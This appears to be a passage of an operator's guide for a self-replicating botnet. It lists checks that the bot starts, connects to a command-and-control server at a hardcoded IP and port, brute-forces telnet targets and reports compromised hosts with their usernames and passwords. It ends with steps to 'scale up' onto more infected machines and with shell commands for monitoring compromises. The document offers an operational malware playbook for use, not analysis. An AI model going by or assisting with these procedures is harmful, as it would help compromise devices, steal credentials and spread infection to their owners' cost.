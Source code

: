 ## 📋 **Verification Checklist**

- [ ] Debug binary compiled with SELFREP and DEBUG flags
- [ ] Bot process starts successfully
- [ ] Scanner process initializes
- [ ] Debug logging writes to file
- [ ] CNC server is reachable
- [ ] Bot connects to CNC server
- [ ] Scanner discovers targets
- [ ] Brute force attempts are logged
- [ ] Successful compromises are reported
- [ ] System resources are adequate

## 🎯 **Success Indicators**

**Self-replication is working correctly when you see:**

1. **Bot Startup:**
   ```
   [SELFREP] Bot started with PID: XXXX
   [SELFREP] Initializing self-replication scanner
   [SCANNER] Scanner process started with PID: XXXX
   ```

2. **CNC Connection:**
   ```
   [SELFREP] Using hardcoded CNC IP for self-rep: 185.247.117.214:59666
   [SELFREP] Successfully connected to CNC server
   ```

3. **Target Discovery:**
   ```
   [SCANNER] Attempting to brute force IP X.X.X.X:23
   ```

4. **Successful Compromises:**
   ```
   [SCANNER] Reporting successful compromise: X.X.X.X:23 with auth username:password
   ```

## 🚀 **Next Steps**

Once self-replication is verified to be working:

1. **Monitor Performance:** Use `./monitor_selfrep.sh monitor` for real-time monitoring
2. **Analyze Results:** Review successful compromises and target statistics
3. **Optimize Settings:** Adjust scanner parameters based on performance
4. **Scale Up:** Deploy to multiple infected machines
5. **Maintain Logs:** Implement log rotation and cleanup

## 📞 **Support Commands**

```bash
# Quick status check
./verify_selfrep.sh

# Real-time monitoring
./monitor_selfrep.sh monitor

# View all successful compromises
./monitor_selfrep.sh compromises

# Check system status
./monitor_selfrep.sh status
```
